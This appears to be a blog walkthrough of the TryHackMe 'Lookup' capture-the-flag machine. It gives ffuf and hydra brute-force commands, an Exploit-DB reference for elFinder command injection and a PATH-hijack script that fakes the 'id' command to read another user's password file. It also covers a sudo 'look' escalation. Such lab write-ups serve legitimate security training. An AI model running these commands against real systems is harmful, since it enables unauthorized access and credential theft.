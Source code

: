 ```yaml
---
layout: post
title: Lookup (TryHackMe)
date: 2025-05-20
categories: [CTF, TryHackme]
tags: [login bruteforce, SUID, GTFObins, Look]
---
```



## Nmap Result

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)

80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login Page
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

# Enumeration

## HTTP(80)

### Dirsearch


```bash
dirsearch -h http://lookup.thm

[14:33:07] 403 -  275B  - /.php                                             
[14:33:59] 200 -    1B  - /login.php                                        
[14:34:16] 403 -  275B  - /server-status                                    
[14:34:16] 403 -  275B  - /server-status/

```

## Website Features
- Login page

![Login](https://c00lrabbit.github.io/assets/assets/Images/Lookup/Login-page.png)

- I tried injection attacks, Intercepted the traffic and Analyzed but no use.

#### Using ffuf we can try bruteforcing the login

```bash
ffuf -w /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -fw 8 
```
![ffuf password ](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-password.png)

But this password doesn't login so i enumerated the username

```bash
 ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-username.txt -X POST -u http://lookup.thm/login.php -d 'username=FUZZ&password=password123' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8 
```

![ffuf uname](https://c00lrabbit.github.io/assets/Images/Lookup/fuff-uname.png)

- After we login with the correct credentials we get into `files.lookup.thm` vhost.
- There is a service running on this vhost named "elFinder".

![elfinder dashboard](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-hpage.png)

- Found the version of the elFinder

![elfinder version info](https://c00lrabbit.github.io/assets/Images/Lookup/elfinder-info.png)

# Exploitation

- This version is vulnerable to php command injection which leads to RCE.
- We found a Exploit from Exploit-DB https://www.exploit-db.com/exploits/46481

![exploit sshell](https://c00lrabbit.github.io/assets/Images/Lookup/exploit-shell.png)

We can upgrade this into interactive shell using Reverse shell.com
![rev-shell](https://c00lrabbit.github.io/assets/Images/Lookup/revshell-generator.png)

- After running linpeas we found a SUID
![linpeas-suid](https://c00lrabbit.github.io/assets/Images/Lookup/linpeas-SUID.png)

- Running pwm binary

![pwm-binary](https://c00lrabbit.github.io/assets/Images/Lookup/pwm-binary.png)

## Analysing the binary
- When we run this binary it executes `id` command and from the result it search for a .password file under the user.

```bash
cd /tmp
echo '#!/bin/bash' > id
echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id
chmod +x id
export PATH=/tmp:$PATH
/usr/sbin/pwm
```
### Breakdown of the above commands
- We are redirecting to `/tmp` because `/tmp` directory have mostly read and write access.
- Creating a shell script named 'id' we are echoing the commands into the file 'id'.
-  Adding Execution privilege to the script and exporting `/tmp` dir to PATH, Here comes the intresting part in linux when we are running a command or file it first check the location of the file form the PATHS list so here we are adding the `/tmp` which makes the `/usr/sbin/pwm` script to run our malicious 'id' script.
- Our script will output like the think user and we can read the /home/think/.passwords file Because the pwm script thinks we are 'think' user.

- After running the above line we get this password list

```
jose1006
jose1004
jose1002
jose1001teles
jose100190
jose10001
jose10.asd
jose10+
....

```

- Using hydra we can bruteforce the login

```bash
hydra -l think -P password.txt ssh://lookup.thm -t 40 -v
```
![hydra-out](https://c00lrabbit.github.io/assets/Images/Lookup/hydra-out.png)

# Privilege Escalation

- Using the found credentials we can ssh into the machine.
```
ssh think@lookup.thm
```

- After running `sudo -l` we found that we have access to "look" with sudo.
- After search in GTFO bins [Click Here](https://gtfobins.github.io/gtfobins/look/#sudo) we found a bypass.

![GTFO-Bins](https://c00lrabbit.github.io/assets/Images/Lookup/gtfo-bin.png)

- We got the root

![root](https://c00lrabbit.github.io/assets/Images/Lookup/Root.png)

## Conclusion
- Bypassing the login page is bit tricky and getting the password list you have to think outside the box.
- Privilege escalation is Stright forward.
- Overall it is a good machine to Test you bruteforcing skills and Enumeration skills.